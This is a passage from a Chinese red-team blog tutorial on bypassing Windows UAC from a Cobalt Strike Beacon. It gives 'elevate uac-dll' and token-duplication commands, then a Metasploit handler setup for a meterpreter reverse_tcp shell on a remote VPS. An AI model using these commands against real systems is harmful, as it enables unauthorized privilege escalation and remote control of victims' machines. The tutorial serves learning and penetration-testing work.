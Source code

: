 ```
elevate uac-dll test1
elevate uac-token-duplication test1
```

# 0x03 使用 UAC-DLL 模块 Bypass UAC

当前 Beacon 没有过 UAC：

![title](https://leanote.com/api/file/getImage?fileId=5e23c2efab64411ab6001577)

使用 `uac-dll` bypassUAC：

![title](https://leanote.com/api/file/getImage?fileId=5e23c7b1ab64411ab6001651)




然后弹回一个 Beacon shell，成功 Bypass 了 UAC：

![title](https://leanote.com/api/file/getImage?fileId=5e23c98fab64411ab60016a5)

但其实这样很不现实，因为在 Bypass UAC 的过程中，会在目标主机上弹两个框，必须要对方点确定才可以，否则无法完成此操作：

![title](https://leanote.com/api/file/getImage?fileId=5e23c6b4ab64411ab6001624)

![title](https://leanote.com/api/file/getImage?fileId=5e23c6d6ab64411cb00015d3)


这可能是因为我用于 Bypass UAC 的 Beacon shell 是普通用户权限。但是这里我不想尝试先提权来看看能不能绕过这两个弹窗了，有点懒，想直接联动 MSF 来 BypassUAC。

# 0x04 联动 MSF 来使 CS Beacon Shell BypassUAC


在 [CobaltStrike&MetaSploit联动](http://blog.leanote.com/post/snowming/43cef4b64cbd) 这篇文章里，我提到过 Cobalt Strike 与 MSF 的联动，这里我就借助 MSF 的 `post/multi/recon/local_exploit_suggester` 来帮助 Cobalt Strike 的这个目标 BypassUAC：

*第一步： 在本地 MSF上创建监听器*

我在公网 VPS 上开了个 MSF，并创建如下监听器：

```
msf > use exploit/multi/handler 
msf > set payload windows/meterpreter/reverse_tcp 注: 此处的协议格式务必要和上面 cs 外部监听器的协议对应,不然 meter 是无法正常回连的 
msf > set lhost 144.*.*.70                        注：这里填本地 MSF 服务器的 IP 地址
msf > set lport 7777 
msf > exploit 
```

![title](https://leanote.com/api/file/getImage?fileId=5e23d840ab64411cb0001929)


*第二步： 在 CS 上创建外部监听器*

在 CS 上创建一个 tcp 的 foreign listener，回连端口设为 9999：
（TCP 就可以，如果是 HTTP 或 HTTPS，最好用域名而不是 IP）
